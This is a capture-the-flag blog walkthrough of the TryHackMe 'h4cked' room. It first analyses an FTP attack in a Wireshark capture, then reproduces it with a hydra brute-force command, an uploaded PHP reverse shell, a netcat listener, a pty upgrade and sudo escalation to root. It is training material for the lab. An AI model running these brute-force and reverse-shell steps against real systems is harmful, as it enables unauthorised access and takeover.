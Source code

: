 ```yaml
---
layout: post
title: "h4cked"
date: 2021-03-21
ctf: true
excerpt: "Walkthrough for h4cked on TryHackMe"
tags: [hydra, reverse shell, Wireshark, packet analysis, rootkit]
comments: false
---
```


# h4cked

h4cked is an easy difficulty room on TryHackMe. Below are the steps I followed to answer the questions for this box.

## Hints

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you reviewed the packet capture to see what's going on?
    <li>Look for some commonly used services to find which one is being brute forced by the attacker.
    <li>Reviewing TCP streams will provide great insight into answering most of these questions.
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Use hydra to brute force the password for the service identified in Task 1.
    <li>Don't forget to start a listener on your attacker box.
    <li>What command can you use to gain elevated privileges once logged in?
</ul>
</details>

## Full Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

![h4cked question 1](/assets/img/h4cked1.png)

After downloading the pcapng file, open it up in Wireshark and then click on **Statistics** followed by **Protocol Hierarchy**. This will show you all the protocols utilized in this packet capture as shown below.

![h4cked Wireshark protocols](/assets/img/h4cked2.png)

Based on this, there are two protocols utilized, HTTP and FTP. Let's close this window and in the filter toolbar, enter the following:

**`ftp`**

![h4cked Wireshark ftp filter](/assets/img/h4cked3.png)

Next, right click on packet 49 (the first filtered packet) and select **Follow** and then **TCP Stream**

![h4cked Wireshark follow TCP stream](/assets/img/h4cked4.png)

The window that pops up shows you that this service has attempts to login to it as shown below, so **FTP** is the answer to Question 1.

![h4cked ftp TCP stream](/assets/img/h4cked5.png)



#### Question 2

This question asks you about a popular brute forcing tool.

![h4cked Question 2](/assets/img/h4cked6.png)

A quick Google search for **Van Hauser brute force tool** will reveal the answer of **hydra**

![h4cked Google van hauser brute force tool](/assets/img/h4cked7.png)

#### Questions 3 and 4

![h4cked Questions 3 and 4](/assets/img/h4cked8.png)

These can be found by following the steps in Question 1. Filtering Wireshark by ftp and then following the first TCP stream. This results in a username of **jenny** and a password of **password123**.

![h4cked Wireshark Questions 3 and 4](/assets/img/h4cked9.png)

#### Questions 5 and 6

![h4cked Questions 5 and 6](/assets/img/h4cked10.png)

In Wireshark, add the following as your filter:

**`ftp contains "PWD"`**

This filters out commands to only show FTP protocols that are running the PWD (print working directory) command. 

![h4cked Wireshark ftp PWD](/assets/img/h4cked11.png)

Follow the TCP stream (as you did for prior questions) and you will see the server's response to the PWD request, which is the answer to question 5. Further in this TCP is the answer to Question 6 as well.

![h4cked Wireshark ftp PWD TCP Stream](/assets/img/h4cked12.png)



#### Question 7

![h4cked Question 7](/assets/img/h4cked13.png)

Let's turn our focus to the ftp-data protocol in Wireshark and enter the following filter:

**`ftp-data"`**

![h4cked Wireshark ftp-data](/assets/img/h4cked14.png)

As we have done previously, Follow the TCP dream for the 2nd packet listed (431).

![h4cked shell.php URL](/assets/img/h4cked15.png)

#### Questions 8 - 13

![h4cked Questions 8-13](/assets/img/h4cked16.png)

For these questions you can filter with the following in Wireshark:

**`frame contains "whoami"`**

I assumed whoami was the command used as it's one of the first commands ran to gather information once a foothold has been established.

![h4cked Wireshark frame filter](/assets/img/h4cked17.png)

Once filtered, you can do another Follow TCP Stream to get answers to Questions 8 -13:

**Question 8**

![h4cked Question 8 answer](/assets/img/h4cked18.png)

**Question 9**

![h4cked Question 9 answer](/assets/img/h4cked19.png)

**Question 10**

![h4cked Question 10 answer](/assets/img/h4cked20.png)

**Question 11**

![h4cked Question 11 answer](/assets/img/h4cked21.png)

**Question 12**

![h4cked Question 12 answer](/assets/img/h4cked22.png)

**Question 13**

This one is somewhat general knowledge, but a quick Google search will likely get your answer. The answer is **rootkit**.

### Task 2

There is only one question that needs an answer, which is reading the flag.txt file. Here are the steps to follow to root this host. First, let's run hydra on the jenny user with the following command on our attacker host.

**`hydra -t 10 -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.237.6  ftp`**

Where 10.10.237.6 is the victim host's IP address. After a few minutes you will uncover the new password for jenny.

![h4cked hydra](/assets/img/h4cked23.png)

Great, now we know the FTP password for jenny. Let's download the reverse PHP shell located [here](https://github.com/pentestmonkey/php-reverse-shell). Save the file as **shell.php** in your user's home folder.

![h4cked reverse shell modification](/assets/img/h4cked24.png)

Next, let's ftp as the jenny user over to our victim host from our attacker host using the password we uncovered. To initially connect, run:

**`ftp <victim ip>`**

![h4cked ftp connection](/assets/img/h4cked25.png)

Next let's run:

**`bin`**

and

**`put shell.php`**

to change the mode to binary mode and upload the shell.

![h4cked upload reverse shell](/assets/img/h4cked26.png)

On your attacker host, run the following to open up a listener to catch the reverse shell:

**`nc -nvlp 4444`**

![h4cked nc listener](/assets/img/h4cked27.png)

Next, navigate to **http://\<attacker ip>/shell.php** and you should see a connection to your netcat listener.

![h4cked reverse shell connection](/assets/img/h4cked28.png)

Next, let's get a fully interactive shell with the following python command:

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**

![h4cked upgrade shell](/assets/img/h4cked29.png)

You will notice we are running as the www-data user. Let's run:

**`su jenny`** to switch over to the jenny user and enter the password we uncovered earlier.

![h4cked su jenny](/assets/img/h4cked30.png)

Next, let's run the following to change our privileges to root:

**`sudo su`**

![h4cked su root](/assets/img/h4cked31.png)

Next, run the following commands to change to the root user's home directory, list that directory's contents, navigate to the Reptile subdirectory, list that directory's contents, and then display the flag.txt file.

**`cd /root`**

**`ls -al`**

**`cd Reptile`**

**`ls -al`**

**`cat flag.txt`**

![h4cked root.txt](/assets/img/h4cked32.png)

And that is the end of this box! It has been fully compromised (again).

</details>
